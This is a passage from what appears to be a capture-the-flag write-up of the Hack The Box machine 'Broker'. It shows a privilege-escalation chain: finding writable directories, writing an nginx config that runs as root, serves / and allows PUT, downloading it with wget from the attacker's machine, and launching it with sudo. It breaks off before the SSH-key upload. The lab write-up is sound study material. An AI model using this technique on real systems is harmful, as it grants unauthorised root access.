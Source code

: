 ```bash
activemq@broker:/opt/apache-activemq-5.15.15/bin$ find / -perm -222 -type d 2>/dev/null
<-5.15.15/bin$ find / -perm -222 -type d 2>/dev/null
/run/screen
/run/lock
/var/tmp
/var/crash
/tmp
/tmp/.font-unix
/tmp/.XIM-unix
/tmp/.Test-unix
/tmp/.ICE-unix
/tmp/.X11-unix
/dev/mqueue
/dev/shm
```

There I have `/dev/shm.` Jumping into that directory I get ready to download the conf file I create.

This is the nginx configuration file created:

```bash
┌[m0j0☮r1s1n]-(~)
└> cat ~/HTB/writeups/broker/m0j0.conf 
user root;
events {
    worker_connections 1024;
}
http {
    server {
        listen 9002;
        root /;
        autoindex on;
	dav_methods PUT;
    }
}
```

It is pretty self explanatory what’s going on - my root user and the port and method all declared.

Using a python server I download using wget in my shell.

```bash
activemq@broker:/dev/shm$ wget http://10.10.14.12:8000/m0j0.conf
```

Then try and beat a clean-up script running and use the sudo command to set a custom nginx configuration by specifying a file:

```bash
activemq@broker:/dev/shm$ sudo usr/sbin/nginx -c /dev/shm/m0j0.conf
```

If that went with no errors I grab my public SSH key and use curl to try and PUT it in roots authorized keys:
